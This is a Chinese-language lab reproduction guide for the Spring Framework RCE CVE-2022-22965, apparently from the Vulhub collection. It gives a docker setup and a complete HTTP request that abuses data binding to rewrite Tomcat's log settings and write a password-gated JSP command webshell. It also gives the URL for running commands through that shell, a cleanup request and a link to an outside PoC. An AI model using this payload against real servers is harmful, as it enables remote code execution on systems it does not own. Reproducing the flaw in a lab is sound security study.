 # Spring框架Data Binding与JDK 9+导致的远程代码执行漏洞 CVE-2022-22965

## 漏洞描述

在JDK 9+上运行的Spring MVC或Spring WebFlux应用程序可能存在通过数据绑定执行远程代码（RCE）的漏洞。

现在已知的利用方法要求应用程序以WAR部署的形式在Tomcat上运行，然而，该漏洞的性质更为普遍，可能有其他方法可以利用它。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22965
- https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/

## 环境搭建

Vulhub执行如下命令启动一个Spring WebMVC 5.3.17服务：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080/?name=Bob&age=25`即可看到一个演示页面。

## 漏洞复现

发送如下数据包，即可修改目标的Tomcat日志路径与后缀，利用这个方法写入一个JSP文件：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: your-:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```

![image-20220412215932241](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/image-20220412215932241.png)

然后，访问刚写入的JSP Webshell，执行任意命令：

```
http://your-ip:8080/tomcatwar.jsp?pwd=j&cmd=id
```

![image-20220412220112693](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/image-20220412220112693.png)

注意，需要在利用完成后将`class.module.classLoader.resources.context.parent.pipeline.first.pattern`清空，否则每次请求都会写入新的恶意代码在JSP Webshell中，导致这个文件变得很大。发送如下数据包将其设置为空：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

总体来说，这个漏洞的利用方法会修改目标服务器配置，导致目标需要重启服务器才能恢复，实际测试中需要格外注意。

## 漏洞POC

- spring4shell_behinder：https://github.com/4nth0ny1130/spring4shell_behinder
